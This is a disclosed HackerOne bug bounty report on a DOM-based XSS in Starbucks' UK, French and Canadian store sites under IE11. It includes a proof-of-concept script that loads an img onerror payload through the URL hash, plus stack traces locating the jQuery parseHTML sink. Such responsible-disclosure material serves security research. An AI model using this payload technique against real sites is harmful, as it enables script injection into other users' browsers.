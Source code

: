 # DOM-based XSS in store.starbucks.co.uk on IE 11

## Report Details
- **Report ID**: 241619
- **URL**: https://hackerone.com/reports/241619
- **State**: Closed
- **Severity**: low
- **Submitted**: 2017-06-20T09:13:03.453Z
- **Disclosed**: 2017-11-03T18:08:52.345Z

## Reporter
- **Username**: albinowax
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: starbucks

## Vulnerability Information
We've found DOM XSS on store.starbucks.co.uk and other related domains such as store.starbucks.fr and store.starbucks.ca.  It appears to be a JQuery based DOM XSS in the parseHTML sink. In order to trigger the XSS you need to use IE11 and the PoC will visit the url first, wait 5 seconds and then revisit the same url to trigger the XSS. 

Here is the PoC:
<script>
function poc() {
        var url = 'https://store.starbucks.co.uk/#<img/src="1"/onerror=alert(1)>', 
            win = window.open(url);
        setTimeout(function(){win.location=url}, 5000);
}
</script>
<a href="#" onclick="poc();">PoC visit using IE11</a>

It may be possible to make this PoC work in Edge, too. Here is a stacktrace of where the source is accessed:

Error
    at Object.get hash [as hash] (<anonymous>:1:29568)
    at Object.initialize (eval at <anonymous> (:1:31716), <anonymous>:1:2524)
    at HTMLDivElement.eval (eval at <anonymous> (:1:31716), <anonymous>:1:6085)
    at Function.each (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:28:379)
    at a.fn.init.each (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:22:134)
    at a.fn.init.$.fn.tabs (eval at <anonymous> (:1:31716), <anonymous>:1:765)
    at HTMLDocument.<anonymous> (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:528:82)
    at r (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:69:440)
    at Object.fireWith [as resolveWith] (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:71:228)
    at Function.ready (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:24:415)
    at HTMLDocument.ga (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:19:386)
Here is a stack trace of where the sink is executed:

Error
    at HTMLDivElement.set [as innerHTML] (<anonymous>:1:41512)
    at Function.buildFragment (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:136:359)
    at Function.parseHTML (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:26:309)
    at a.fn.init (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:193:56)
    at g (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:18:396)
    at Object.initialize (eval at <anonymous> (:1:31716), <anonymous>:1:2495)
    at HTMLDivElement.eval (eval at <anonymous> (:1:31716), <anonymous>:1:6085)
    at Function.each (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:28:379)
    at a.fn.init.each (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:22:134)
    at a.fn.init.$.fn.tabs (eval at <anonymous> (:1:31716), <anonymous>:1:765)
    at HTMLDocument.<anonymous> (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:528:82)
    at r (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:69:440)
    at Object.fireWith [as resolveWith] (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:71:228)
    at Function.ready (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:24:415)
    at HTMLDocument.ga (https://store.starbucks.co.uk/on/demandware.static/Sites-StarbucksUK-Site/-/en_GB/v1497508834714/js/generic.min.js:19:386)


## Attachments
- Screen_Shot_2017-06-20_at_10.08.32.png
